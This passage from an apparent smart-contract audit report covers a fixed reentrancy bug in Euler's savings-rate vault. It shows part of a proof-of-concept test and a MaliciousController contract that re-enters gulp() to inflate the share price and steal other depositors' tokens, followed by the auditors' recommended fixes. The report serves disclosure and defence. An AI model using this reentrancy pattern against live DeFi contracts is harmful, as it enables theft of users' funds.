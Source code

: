 ```solidity
        vm.expectRevert();
        savings.redeem(shares, user1, user1);
        vm.stopPrank();
    }
```

```solidity
contract MaliciousController {

    EulerSavingsRate savings;
    bool gulpNextCall;

    constructor(address s) {
        savings = EulerSavingsRate(s);
    }

    function setGulpNextCall() external {
        gulpNextCall = true;
    }

    function checkAccountStatus(address user, address[] calldata collaterals) external returns (bytes32 magicValue) {
        if (gulpNextCall) {
            savings.gulp();
            gulpNextCall = false;
        }
        return bytes32(bytes4(0xb168c58f));
    }
```

#### Impact

High. An attacker can steal tokens from other depositors and increase the price per share to borrow more on an Euler lending market.

#### Recommendation

Consider implementing **both** of these suggestions:

- Consider adding a reentrancy lock to the [`deposit()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/lib/openzeppelin-contracts/contracts/token/ERC20/extensions/ERC4626.sol#L171-L171) and [`gulp()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L130-L130) functions.

- Consider updating the `totalAssetsDeposited` before calling the `super._deposit()` and `super._withdraw()` in [`_deposit()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L117-L117) and [`_withdraw()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L122-L122) since the call to the controller happens after the eSynth tokens are sent to or from the vault.

#### Developer Response

Fixed in commit [ad9c96cc46027465b0fafc3a97be15d7918adaba](https://github.com/euler-xyz/euler-vault-kit/commit/ad9c96cc46027465b0fafc3a97be15d7918adaba).
